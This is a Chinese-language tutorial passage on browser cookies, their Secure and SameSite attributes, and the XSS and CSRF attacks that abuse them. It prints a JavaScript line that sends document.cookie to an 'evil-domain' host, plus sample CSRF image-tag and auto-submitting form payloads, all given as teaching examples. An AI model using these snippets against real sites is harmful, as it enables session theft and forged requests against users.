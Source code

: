 | Secure          | 指定cookie是否仅被使用安全协议传输，默认为false              |
| SameSite        | 用来限制第三方cookie,减少安全风险(防止CSRF攻击（CSRF攻击是：cookie存储用户的身份信息，恶意网站设法伪造带有正确cookie的HTTP请求）) |



###  创建cookie

当服务器收到 HTTP 请求时，服务器可以在响应头里面添加一个 [`Set-Cookie`](https://developer.mozilla.org/zh-CN/docs/Web/HTTP/Headers/Set-Cookie) 选项。浏览器收到响应后通常会保存下 Cookie，之后对该服务器每一次请求中都通过 [`Cookie`](https://developer.mozilla.org/zh-CN/docs/Web/HTTP/Headers/Cookie) 请求头部将 Cookie 信息发送给服务器。另外，Cookie 的过期时间、域、路径、有效期、适用站点都可以根据需要来指定。

![img](https://pic4.zhimg.com/80/v2-b9637047c96bb6ac934807a820dc7663_720w.jpg)

### XSS攻击

#### 什么是XSS

会话劫持，在 Web 应用中，Cookie 常用来标记用户或授权会话。因此，如果 Web 应用的 Cookie 被窃取，可能导致授权用户的会话受到攻击。常用的窃取 Cookie 的方法有利用社会工程学攻击和利用应用程序漏洞进行 [XSS (en-US)](https://developer.mozilla.org/en-US/docs/Glossary/Cross-site_scripting) 攻击。

```
(new Image()).src = "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;
```

`HttpOnly` 类型的 Cookie 用于阻止了 JavaScript 对其的访问性而能在一定程度上缓解此类攻击。

### CSRF攻击

#### 什么是CSRF

（Cross Site Request Forgery, 跨站域请求伪造）是一种网络的攻击方式，它在 2007 年曾被列为互联网 20 大安全隐患之一,也被称为“One Click Attack”或者Session Riding，通常缩写为CSRF或者XSRF，是一种对网站的恶意利用。尽管听起来像跨站脚本（[XSS](https://link.jianshu.com?t=http://baike.baidu.com/view/50325.htm)），但它与XSS非常不同，并且攻击方式几乎相左。XSS利用站点内的信任用户，而CSRF则通过`伪装来自受信任用户`的请求来利用受信任的网站。与[XSS](https://link.jianshu.com?t=http://baike.baidu.com/view/50325.htm)攻击相比，CSRF攻击往往不大流行（因此对其进行防范的资源也相当稀少）和`难以防范`，所以被认为比[XSS](https://link.jianshu.com?t=http://baike.baidu.com/view/50325.htm)`更具危险性`。

![img](https://pic1.zhimg.com/80/v2-05b0dd2744a82edca44ff41da4f68698_720w.jpg)

* GET类型

  * ```html
    <img src=http://wooyun.org/csrf?xx=11 /> 
    ```

  * 在访问含有这个img的页面后，成功向`http://wooyun.org/csrf?xx=11` 发出了一次HTTP请求。所以，如果将该网址替换为存在GET型CSRF的地址，就能完成攻击了。

* POST类型

  * ```html
    <form action=http://wooyun.org/csrf.php method=POST>
    	<input type="text" name="xx" value="11" />
    </form>
    <script> document.forms[0].submit(); </script> 
    ```
